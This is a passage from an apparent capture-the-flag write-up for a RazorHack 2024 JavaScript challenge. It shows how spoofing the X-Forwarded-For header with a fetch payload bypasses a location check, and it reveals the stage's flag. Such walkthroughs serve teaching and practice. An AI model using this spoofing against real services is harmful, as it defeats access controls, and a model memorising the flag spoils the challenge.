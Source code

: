 ### Teleportation

***Who would have that they would have attached a VPN to all of our services, so now we can't access the warning services without being in the right location. While it would be cool to travel for a "vacation", I think we are going to do this on the cheap. Now the obvious question is what location, but a better question is why ask us?***
***~ Stanley from IT***

*Solved: 3/33*

For this stage, we now have access to the IT dashboard, which for a dashboard for all of IT's functions, it is pretty bare bones (make sense why they can't do much for you). The Russian comment says: **I decided to hide my IP address now because apparently previous posts were leaked to the site. I don't know how it happened, but I hope it doesn't lead to problems in the future.** In the previous 3 stages, the comment was prefixed with an IP of *194.242.26.157* (an actual Russian IP), but now it is censored.

::image{src="/res/blog/razorhack-ctf-2024/js-gauntlet-2/teleportation-1.jpg" style="width: 100%"}

You have 4 buttons that do different actions such as create a ticket or seeing the notifications. However, they are all disabled as alluded to in the challenge prompt because **You are not in the correct location!**. This prompts you to try to change the location somehow, especially since you have a Russian IP you can base it from. While location services could have been a cool time, because of how varied the implementations can be, I decided to go for the "X-Forwarded-For" header, which has been out of use for a little bit. This HTTP header allows the client to say from what IP the request came from. Because you can change this, it obviously became a security concern that you can so easily spoof IPs, which means that you can spoof locations. With this payload...

```javascript
fetch('/api/stage4/request', {
    method: 'post',
    headers: {
        'content-type': 'application/json',
        'x-forwarded-for': '194.242.26.157'
    },
    body: JSON.stringify({ id: 'lol' })
})
.then(response => response.json())
.then(data => { 
    if (data.error) {
        sendNotification(true, data.error);
    } else {
        sendNotification(false, data.flag);
    }
});
```

...the flag will appear in the notification. Just be sure to grab it before it goes away! The flag is **flag{so_no_headers_28013}**

::image{src="/res/blog/razorhack-ctf-2024/js-gauntlet-2/teleportation-2.jpg" style="width: 100%"}

---

### We Are Doing This Again?

